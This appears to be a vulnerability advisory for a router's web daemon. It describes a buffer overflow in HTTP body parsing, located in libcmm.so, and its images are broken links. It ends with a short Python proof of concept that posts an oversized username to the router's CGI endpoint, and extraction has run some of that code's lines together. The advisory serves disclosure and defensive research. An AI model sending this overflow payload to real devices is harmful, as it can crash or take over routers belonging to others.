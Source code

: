 ## ***\*Affected version\****

![img](file:///C:\Users\zq\AppData\Local\Temp\ksohtml\wpsE0E3.tmp.jpg) 

##  

## ***\*Description\****

There is a buffer overflow when HTTP body message is parsed by httpd process, which may lead to remote code execution. For example, When we set the router password for the first time, the http daemon did not verify the external http message. If we transmit a long user name or password, it will cause the httpd process access to illegal address.

![img](file:///C:\Users\zq\AppData\Local\Temp\ksohtml\wpsE0E4.tmp.jpg) 

The instruction where the error occurred is libcmm.so

![img](file:///C:\Users\zq\AppData\Local\Temp\ksohtml\wpsE0E5.tmp.jpg) 

Crash log

![img](file:///C:\Users\zq\AppData\Local\Temp\ksohtml\wpsE0E6.tmp.jpg) 

## ***\*Vulnerability analysis\****

Through the tracking of data flow, we found that the problem occurred in the following code

![img](file:///C:\Users\zq\AppData\Local\Temp\ksohtml\wpsE0E7.tmp.jpg) 

v21 variable stores the value corresponding to each key-value pair (such as user name and password)，The length of the variable v26 is only 1304 bytes. When we are exploiting the vulnerability, we also need to pay attention to the 96 lines of code that will cause a crash due to buffer overflow.

## 

## ***\*How to Reproduce (PoC)\****

It is easy to reproduce this problem.

\# Only after resetting the router or using the router for the first time, can the script work effectively!import requests

headers = {

​	"Host": "192.168.0.1",

​	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",

​	"Accept": "*/*",

​	"Accept-Language": "en-US,en;q=0.5",

​	"Accept-Encoding": "gzip, deflate",

​	"Content-Type": "text/plain",

​	"Content-Length": "78",

​	"Origin": "http://192.168.0.1",

​	"Connection": "close",

​	"Referer": "http://192.168.0.1/"

}

payload = "a" * 512 + "b" * 1024formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=lys123\r\n".format(payload)

url = "http://192.168.0.1/cgi?8"

response = requests.post(url, data=formdata, headers=headers)print response.text



![img](file:///C:\Users\zq\AppData\Local\Temp\ksohtml\wpsE0E8.tmp.jpg) 